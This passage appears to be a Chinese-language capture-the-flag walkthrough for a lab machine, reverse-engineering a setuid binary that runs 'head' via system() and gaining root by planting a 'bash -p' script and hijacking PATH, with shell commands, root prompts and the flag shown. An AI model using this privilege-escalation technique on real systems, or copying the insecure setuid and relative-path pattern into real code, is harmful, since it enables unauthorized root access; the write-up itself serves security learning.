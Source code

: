 将两个程序都下载到本地进行分析

## 程序逆向分析

### PMCEmployees

对程序进行反编译

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setuid(0);
  printf("Showing top 10 best employees of PMC company");
  return system("head /home/pmccentral/documents/employees.txt");
}
```

并且可以注意到 `/home/laboratoryadmin/autoScripts/head` 这个文件是可控的，那么就可以直接接管权限了

### head 文件分析

```plaintext title="/home/laboratoryadmin/autoScripts/head"
bash -p
```

:::note

好奇怪，这个靶机的作者这是直接把提权方案直接往嘴巴里面喂？

:::

## User - root

:::note

下面的方案暴力修改了 PATH 环境变量，不建议使用此方案

:::

```bash
laboratoryadmin@laboratoryuser:~/autoScripts$ echo '/usr/bin/bash -p' > head
laboratoryadmin@laboratoryuser:~/autoScripts$ export PATH=/home/laboratoryadmin/autoScripts
laboratoryadmin@laboratoryuser:~/autoScripts$ ./PMCEmployees
root@laboratoryuser:~/autoScripts# /usr/bin/whoami
root
```

:::note

建议使用此方案

:::

```bash
(remote) laboratoryadmin@laboratoryuser:/home/laboratoryadmin/autoScripts$ export PATH=/home/laboratoryadmin/autoScripts:$PATH
(remote) laboratoryadmin@laboratoryuser:/home/laboratoryadmin/autoScripts$ ./PMCEmployees
root@laboratoryuser:~/autoScripts# whoami
root
```

### flag - root

```bash
root@laboratoryuser:/root# cat root.txt
flag{r00t_t3ns0}
```
